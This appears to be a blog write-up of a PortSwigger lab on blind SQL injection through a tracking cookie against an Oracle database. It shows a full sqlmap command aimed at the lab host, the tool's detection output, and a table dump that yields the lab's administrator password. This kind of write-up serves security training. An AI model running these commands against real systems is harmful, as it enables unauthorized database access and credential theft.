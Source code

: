 ```yaml
---
layout: post
title:  "Blind SQL injection with conditional errors"
date:   2024-09-22 09:39:54 +0530
categories: [BSCP, SQLi]
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Like the previous lab, This is same way to exploit through a cookie value where the `TrackingId` is vulnerable to SQLi and It uses an `Oracle` database 

```sh
 ✘ nits@FWS-CHE-LT-8869  ~/Workspace/Personal/blog   main  sqlmap -u "https://0a6b00b104f31bcf80063aa500500058.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" -p "TrackingId" --level 2 --threads 5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:36:24 /2024-09-22/

[11:36:24] [INFO] testing connection to the target URL
[11:36:25] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[11:36:31] [INFO] target URL content is stable
do you want to URL encode cookie values (implementation specific)? [Y/n] n
[11:36:34] [WARNING] heuristic (basic) test shows that Cookie parameter 'TrackingId' might not be injectable
[11:36:35] [INFO] testing for SQL injection on Cookie parameter 'TrackingId'
[11:36:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:37:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[11:37:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[11:37:24] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[11:37:49] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[11:38:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[11:38:14] [INFO] Cookie parameter 'TrackingId' appears to be 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)' injectable (with --code=200)
```

While dumping the database, we found `administrator` credentials 

```sh
[11:48:19] [INFO] fetching entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] fetching number of entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] retrieved: 3
[11:48:23] [INFO] retrieving the length of query output
[11:48:23] [INFO] retrieved: 
[11:48:25] [INFO] retrieved:  
[11:48:36] [INFO] retrieving the length of query output
[11:48:36] [INFO] retrieved: 20
[11:49:03] [INFO] retrieved: p2vmu5h7blpqnvt10fs8             
[11:49:03] [INFO] retrieving the length of query output
[11:49:03] [INFO] retrieved: 13
[11:49:23] [INFO] retrieved: administrator             
[11:49:23] [INFO] retrieving the length of query output
```

Now login with those credentials and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli50.png)